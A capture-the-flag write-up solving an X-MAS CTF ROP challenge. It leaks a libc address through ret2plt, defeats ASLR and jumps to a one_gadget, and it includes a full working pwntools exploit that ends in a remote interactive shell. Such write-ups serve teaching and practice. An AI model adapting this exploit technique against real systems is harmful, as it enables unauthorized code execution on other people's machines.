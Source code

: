 ## exploit

In this challenge we have to exploit ELF 64 bit not stripped that seems to let an attacker perform ROP attack:
```
This is easier than you would think...
Santa allowed you to ROP me!
ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
Segmentation fault (core dumped)
```
with checksec is quite clear that we can perform classic buffer overflow attack without consider canary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
At this brief point ret2plt seems to be the most simple choice but the programs does not perform any system. The second problem is that NX bit is enabled so I could consider to execute my shellcode only if I could perform an mprotect call and let some section being executable, moreover I didn't know if the remote server has ASLR enable and must place shellcode into `.bss` section. In order to discover that I could print with ret2plt GOT entry for one function called by the program and yet resolved (for istance put) and try to discover that.

```
This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7ff28b205460

This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7fd40dcfb940
```
Unfortunatly ASLR is enabled so the right things to do after that is a chain that:
* leak GOT entry for libc function yet resolved
* discover libc version in order to obtain base address for the right libc version
* using one_gadget and looking for magic gadget offset right to the version of libc discovered

The other problem is that the program perform the gets one time and we waste that to leak GOT entry, so the things we could do is perform a ret2plt to puts function and discover the address resolved, after that jumping at the start of the program in order to perform another buffer overflow and jump to our magic gadget. 

The leak reveal that remote server make use of different libc version, after some attempts the exploit worked perfectly performing jump to right magic gadget for one the version chosen after see the last bytes of puts address:

```python
#!/usr/bin/env python3

from pwn import *

s=remote('199.247.6.180',10005)
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))


s.send("a"*40+"\x7b\x07\x40\x00\x00\x00\x00\x00"+"\x18\x10\x60\x00\x00\x00\x00\x00"+"\x50\x05\x40\x00\x00\x00\x00\x00"+"\x76\x06\x40\x00\x00\x00\x00\x00"*2+"\n")

out=s.recv(6)+b"\x00\x00"
lputs=u64(out)
print("puts "+hex(lputs))
base_addr=lputs-0x06fd60
magic=base_addr+0xea36d
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))
s.send(p64(magic)*8+b"\n")

s.interactive()
```
##### flag: X-MAS{r4nd0m_chr157m45_pr353n75_4r3_50_fun}



